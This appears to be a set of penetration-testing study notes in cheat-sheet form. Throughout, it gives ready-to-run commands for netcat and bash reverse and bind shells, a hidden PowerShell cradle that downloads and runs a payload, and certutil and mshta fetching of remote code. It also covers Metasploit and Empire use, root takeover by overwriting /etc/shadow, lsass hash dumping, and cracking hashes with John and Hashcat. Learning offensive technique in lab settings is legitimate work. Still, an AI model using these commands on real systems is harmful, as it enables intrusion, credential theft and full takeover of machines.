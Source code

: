 ### Vulnerability Scanning
### Searching For Exploits


### Bind and Reverse Shells
```
nc -help

-n : do not resolve hostnames
-v : verbosity, can be used multiple times
-l : listen
-p : local port number
-u : UDP instead of TCP
-e : execute command
```

```
cd /usr/share/windows-resources/binaries/
python -m SimpleHTTPServer 80

certutil -urlcache -f http://<ip>/nc.exe nc.exe
nc.exe -h
```
- Windows does not have `netcat` by default.

#### Transferring Files
```
nc -nvlp <port> > received.txt
nc -nv <ip> <port> < sent.txt
```

#### Bind Shells
```
nc -nvlp <port> -e /bin/bash
nc -nv <ip> <port>
```
```
nc -nvlp <port> -e cmd.exe
nc -nv <ip> <port>
```

#### Reverse Shells
```
nc -nvlp <port>
nc -nv <ip> <port> -e /bin/bash
```
```
nc -nvlp <port>
nc -nv <ip> <port> -e cmd.exe
```
```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```

#### Useful Links
- https://github.com/swisskyrepo/PayloadsAllTheThings
- https://www.revshells.com/

### Exploitation Frameworks
#### MSF
```
nmap -Pn -sV <ip>

searchsploit process maker

search processmaker
use exploit/multi/http/processmaker_plugin_upload
use exploit/multi/http/processmaker_exec
```
- Both modules require credentials - default credentials are `admin / admin`.

#### PowerShell-Empire (Empire)
```
sudo apt-get update && sudo apt-get install powershell-empire starkiller -y

sudo powershell-empire server

sudo powershell-empire client
listeners
agents

https://localhost:1337
empireadmin / password123
```
- https://www.kali.org/blog/empire-starkiller/ (Web GUI)

### Windows Exploitation
### Linux Exploitation


### Windows Privilege Escalation
```
use exploit/multi/script/web_delivery
set target PSH\ (Binary)
set payload windows/shell/reverse_tcp
set PSH-EncodedCommand false
set LHOST <ip>

powershell.exe -nop -w hidden -c [Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12;$z="echo ($env:temp+'\oPY153Pv.exe')"; (new-object System.Net.WebClient).DownloadFile('http://<ip>:<port>/5YaTnDgYGm1KPK', $z); invoke-item $z
```
-  Listens on `8080` (Web) and `4444` (shell) by default after running `exploit`. Run generated PowerShell code on target to get a shell.

#### PrivescCheck
```
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
```
- https://github.com/itm4n/PrivescCheck

#### psexec
```
which psexec.py
psexec.py <username>@<ip>
```
```
use exploit/windows/smb/psexec
set SMBUser <username>
set SMBPass <password>
```

#### MSHTA
```
runas.exe /user:<username> cmd

use exploit/windows/misc/hta_server
exploit

mshta.exe http://<ip>:<port>/<filename>.hta
```

### Linux Privilege Escalation
#### Weak Permissions
```
find / -not -type l -perm -o+w

ls -al /etc/shadow
-rw-rw-rw- 1 root shadow 551 Jan  3 15:31 /etc/shadow
```
- `-o+w` means others have write permissions.

```
openssl passwd -1 -salt abc password
$1$abc$BXBqpb9BZcZhXLgbee.0s/

vi /etc/shadow
root:*:17764:0:99999:7::: --> root:$1$abc$BXBqpb9BZcZhXLgbee.0s/:17764:0:99999:7:::

su
Password: password
```
- Modify `/etc/shadow` by setting root password.


### Dumping and Cracking Windows Hashes
#### John the Ripper
```
meterpreter > ps -S lsass.exe
meterpreter > migrate <pid>

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
bob:1009:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
- Hashes will appear in `creds`.

```
vi hashes.txt

Paste Administrator and bob's hashes into the text file

john --format=NT hashes.txt

cat .john/john.pot

rm -rf /root/.john
john --format=NT hashes.txt --wordlist=/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```
- Default wordlist `/usr/share/john/password.lst`.

```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```
- Alternative wordlist.

```
use auxiliary/analyze/crack_windows
set CUSTOM_WORDLIST /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

#### Hashcat
```
hashcat --help

hashcat -m 1000 -a 3 hashes.txt /usr/share/wordlists/rockyou.txt

cat .hashcat/hashcat.potfile
```

### Dumping and Cracking Linux Hashes
- Need privileges to access `/etc/shadow`
	- $1 - MD5 (weakest)
	- $2 - Blowfish
	- $5 - SHA-256
	- $6 - SHA-512

```
meterpreter > cat /etc/shadow
root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:18348:0:99999:7:::
```
- Unable to use `hashdump` for Linux?

#### John the Ripper
```
use post/linux/gather/hashdump
set SESSION <session_id>

creds
loot

cat /root/.msf4/loot/20240104035021_default_192.122.73.3_linux.hashes_884293.txt
root:$6$sgewtGbw$ihhoUYASuXTh7Dmw0adpC7a3fBGkf9hkOQCffBQRMIF8/0w6g/Mh4jMWJ0yEFiZyqVQhZ4.vuS8XOyq.hLQBb.:0:0:root:/root:/bin/bash

gzip -d /usr/share/wordlists/rockyou.txt.gz

john --format=sha512crypt /root/.msf4/loot/20240104035021_default_192.122.73.3_linux.hashes_884293.txt --wordlist=/usr/share/wordlists/rockyou.txt

cat .john/john.pot
```
- Must use the unshadowed password file.

```
use auxiliary/analyze/crack_linux
set SHA512 true
```

#### Hashcat
```
hashcat -m 1800 -a 3 /root/.msf4/loot/20240104035021_default_192.122.73.3_linux.hashes_884293.txt /usr/share/wordlists/rockyou.txt

cat .hashcat/hashcat.potfile
```
